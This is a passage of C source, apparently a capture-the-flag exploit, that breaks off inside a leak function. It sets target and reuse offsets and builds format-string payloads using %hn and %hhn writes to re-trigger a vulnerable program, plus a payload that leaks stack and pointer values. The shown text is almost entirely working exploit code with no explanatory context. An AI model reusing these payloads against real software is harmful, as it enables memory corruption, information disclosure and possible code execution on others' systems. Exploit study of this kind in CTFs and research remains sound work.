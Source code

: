 
```c
#define _GNU_SOURCE
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/uio.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include "shell.h"
#include <sys/select.h>
#include <unistd.h>
#define LOCAL 0


size_t target;
size_t reuse;


char *trash = 0; 
int p;
int fd_send[2];
int fd_recv[2];
int pre= 0;
int res =0;
void panic(char *s){
    puts(s);
    exit(1);
}
void init(){
    if(LOCAL){
        target = 0xed48;
        reuse = 0x63;
    }else{
        target = 0xed48;
        reuse = 0x5a;
    }
}
void loopProgram(){
    puts("[+] Sending first payload to reuse the vulnerability");
    char *buf = malloc(0x40);
    memset(buf,0,0x40);
    int x = reuse-(target&0xff);
    if(x<0)
        x+=0x100;
    snprintf(buf,0x40,"%%c%%c%%c%%c%%c%%c%%c%%c%%c%%c%%c%%c%%c%%c%%%dc%%hn%%%dc%%43$hhn%%%dp|",target-0xe,x,0x10000-0xed63+9);
    do_send(buf);
    free(buf);
}
void doleak(){
    char *buf = malloc(0x40);
    memset(buf,0,0x40);
    snprintf(buf,0x40,"%%%dp%%43$hhn|%%1$p|%%3$p|%%13$p|%%%dc\n",reuse,0x2000-0x94+12);
```